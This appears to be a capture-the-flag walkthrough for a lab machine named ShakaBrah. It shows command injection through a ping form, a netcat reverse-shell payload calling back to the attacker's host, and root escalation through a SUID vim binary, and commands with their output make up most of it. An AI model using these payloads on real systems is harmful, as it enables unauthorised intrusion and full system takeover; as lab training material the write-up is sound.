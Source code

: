 # Exploitation Guide for ShakaBrah 

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap -sV -sC -p- -T4 $IP

```

We find port 80 is open and visit it in our browser as a first step. On the page we find a form allowing us to specify a host and verify the server's connectivity to that host. Specifying `localhost` we see the following output which indicates the server is running the `ping` command.
```
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.022 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.056 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.057 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.042 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3070ms
rtt min/avg/max/mdev = 0.022/0.044/0.057/0.014 ms
```

## Exploitation

It appears as though the server concatenates the host we specify with the string `ping -c 4 ` and then executes it via a shell. If the appropriate validation or sanitisation is not performed we can exploit this to inject our own commands. We will verify this by attempting to run the `id` command using the following payload: `; id`. The semicolon is the Bash command separator, allowing us to run the `id` command after `ping` has finished executing. The output below shows that our assumption was correct and we can inject and execute any OS command we wish.
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

To exploit this we will first start a Netcat handler listening on port 80 to catch our reverse shell.
```
kali@kali:~/# sudo nc -lvp 80
listening on [any] 80 ...
```

We will then submit the following payload containing a reverse shell to the connectivity verification web site.
```
;rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c "cat /tmp/x | /bin/sh -i 2>&1 | nc kali 80 > /tmp/x"
```

We then catch our reverse shell and upgrade to a full TTY using Python.
```
kali@kali:~/# sudo nc -lvp 80
listening on [any] 80 ...
192.168.83.134: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.83.134] 55428
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@shakabrah:/var/www/html$
```

## Escalation

To escalate our privilege to `root` we will first enumerate all SUID binaries on the system.
```
www-data@shakabrah:/var/www/html$ find / -perm -4000 2> /dev/null
find / -perm -4000 2> /dev/null
/bin/mount
/bin/su
/bin/ping
/bin/umount
/bin/fusermount
...
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/vim.basic
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
```

One which should suit our needs perfectly is `/usr/bin/vim.basic`. We can exploit this as follows.
```
www-data@shakabrah:/var/www/html$ /usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/bash", "/bin/bash")'
<; os.setuid(0); os.execl("/bin/bash", "/bin/bash")'
```

After skipping over some struggles Vim has with our not fully functional terminal, we can see that we did indeed obtain `root` access.
```
root@shakabrah:/var/www/html# id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@shakabrah:/var/www/html#
```
